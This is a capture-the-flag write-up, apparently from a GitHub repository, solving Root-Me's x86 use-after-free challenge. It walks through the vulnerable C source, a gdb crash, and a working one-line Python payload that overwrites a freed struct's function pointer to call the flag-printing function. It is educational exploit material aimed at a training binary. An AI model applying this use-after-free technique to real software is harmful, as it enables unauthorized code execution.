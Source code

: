 # ELF x86 - Use After Free - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Use-After-Free-basic
```
Environment configuration :
PIE 	Position Independent Executable 	No
RelRO 	Read Only relocations 	             	Yes
NX 	Non-Executable Stack 	                Yes
Heap exec 	Non-Executable Heap 	        Yes
ASLR 	Address Space Layout Randomization 	Yes  
SRC 	Source code access 	                Yes

Challenge connection informations :

Host	        challenge03.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch63@challenge03.root-me.org    
Username	app-systeme-ch63
Password	app-systeme-ch63
```

The challenge provides a source code, and the title pretty much implies the vulnerability. Let's find it.
```c
struct Dog {
    char name[12];
    void (*bark)();						// <---- a function which does nothing
    void (*bringBackTheFlag)();			// <---- a function which prints the flag
    void (*death)(struct Dog*);			// <---- a function which frees the dog struct
};
struct DogHouse{
    char address[16];
    char name[8];
};

int main(){
	struct Dog* dog = NULL;
    struct DogHouse* dogHouse = NULL;
    [...snip...]
		case '4':
		if(!dog){
				puts("You do not have a dog.");
				break;
		}
		dog->death(dog);					// <---- frees the Dog struct and still keeps the pointer
		break;
	[...snip...]
}
```
As the above code (and comments) describes, there is a UAF vulnerability in this program. It's possible to allocate a Dog struct, and then free it. Afterward, it's possible to allocate a DogHouse in the same memory location of the free'd Dog struct, which will overwrite the Dog's functions.

First let's verify the vulnerability.

So, the plan is:<br>
	1. Buy a dog (allocate a Dog struct).
	2. Kill the dog (free the Dog struct).
	3. Buy a dog house (allocate a DogHouse sturct) which will overwrite a function pointer of the killed dog.
	4. The dog's spirit is still with us, so call its overwrite function (the is no changing of the Dog struct pointer, so it's possible).
	5. Get the flag.
(Note: I love animals and against animal cruelty).

Let's verify the vulnerability and see what's up:
```gdb
(gdb) run
Starting program: /challenge/app-systeme/ch63/ch63
warning: the debug information found in "/lib/old32/libc-2.19.so" does not match "/lib/old32/libc.so.6" (CRC mismatch).

1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
1
How do you name him?
Albert
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
4
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
5
Where do you build it?
AAAABBBBCCCCDDDD
How do you name it?
EEEEFFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
The following diagram will describe what happend:
```
    1. Allocating a Dog sturct
      +---------------------+--------+--------------------+-------+
      |         Albert      | bark() | bringBackTheFlag() | death |   (24 bytes)
      +---------------------+--------+----------------------------+

    2. Freeing the Dog struct - no change.
    3. Allocating a DogHouse struct in the same memory address (same size).
      +---------------------+--------+--------------------+-------+
      |     AAAABBBBCCCC    |  DDDD  |        EEEE        | FFFF  |   (24 bytes)
      +---------------------+--------+----------------------------+
    4. Running bark() results in segmantation fault.
```
At this point we've got a code execution. Now it's time to leaverage it.<br>
The ASLR is on, but the PIE is off, which means that the _text segment is not
randomized. In addition, according to the source code, the challenge made it
easy for us and added a function which prints the flag - so we won't have to build
a ROP and cat the file.

According to gdb, the function is at 0x80487cb:
```gdb
(gdb) print bringBackTheFlag
$1 = {<text variable, no debug info>} 0x80487cb <bringBackTheFlag>
```

So after writing a quick python script (uploaded to this repo), we've got the
following output:
```sh
$ python -c "print '1\n' + 'albert\n' + '4\n' + '5\n' + 'AAAABBBBCCCC\xcb\x87\x04\x08\n' + 'EEEEFFFF\n' + '2\n'" | ./ch63
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
How do you name him?
You buy a new dog. Albert is a good name for him
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Albert run under a car... Albert 0-1 car
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
Where do you build it?
How do you name it?
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
<censored>
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
```
